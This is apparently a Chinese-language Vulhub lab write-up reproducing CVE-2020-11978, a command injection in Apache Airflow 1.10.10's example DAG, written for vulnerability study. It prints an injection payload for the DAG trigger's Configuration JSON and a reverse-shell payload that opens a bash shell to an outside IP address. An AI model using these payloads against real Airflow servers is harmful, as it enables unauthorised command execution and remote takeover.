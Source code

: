 # Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20220329111338269](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111338269.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![image-20220329111358392](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111358392.png)

等几秒可以看到执行成功：

![image-20220329111445804](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111445804.png)

到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![image-20220329111605593](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111605593.png)

### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/101.42.237.61/9999 0>&1;#"}
```

![image-20220329113423239](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329113423239.png)

